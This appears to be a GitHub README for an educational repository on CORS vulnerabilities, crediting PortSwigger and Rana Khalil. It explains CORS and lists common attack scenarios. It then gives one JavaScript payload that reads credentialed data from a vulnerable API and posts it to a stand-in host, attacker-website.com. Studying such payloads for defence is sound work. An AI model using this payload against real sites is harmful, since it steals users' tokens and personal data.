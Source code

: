 # Cross-Origin Resource Sharing (CORS)

This repository is dedicated to exploring Cross-Origin Resource Sharing (CORS) vulnerabilities, providing examples of common CORS attacks and payloads, and offering strategies for prevention. This learning path is inspired by content from [web-security-academy.net](https://portswigger.net/web-security) and [Rana Khalil](https://ranakhalil.com/), and it aims to enhance your understanding of CORS.

## Introduction to CORS

Cross-Origin Resource Sharing (CORS) is a security feature implemented by web browsers to control how resources from one domain can be requested by another domain. It is designed to protect web applications from unauthorized access to resources on different domains. However, when improperly configured, CORS can introduce vulnerabilities that allow attackers to bypass these restrictions and access sensitive data.

## Common CORS Attack Scenarios

1. **Exploiting Misconfigured CORS Policies**: An attacker accesses sensitive information from a different domain due to overly permissive CORS settings.
2. **Stealing User Data**: An attacker retrieves personal information like user details, session tokens, or other sensitive data by exploiting CORS flaws.
3. **Performing Unauthorized API Requests**: An attacker leverages a vulnerable CORS policy to make unauthorized API calls on behalf of a user.
4. **Bypassing Same-Origin Policy**: An attacker circumvents the browser’s same-origin policy, allowing them to execute scripts from a different origin.

## Example Payloads

### Stealing Sensitive Data

```javascript
// Malicious JavaScript Code
fetch("https://vulnerable-api.com/sensitive-data", {
    method: "GET",
    credentials: "include"
})
    .then((response) => response.text())
    .then((data) => {
        // Send stolen data to the attacker's server
        fetch("https://attacker-website.com/steal-data", {
            method: "POST",
            body: JSON.stringify({stolenData: data}),
            headers: {
                "Content-Type": "application/json"
            }
        });
    });
```
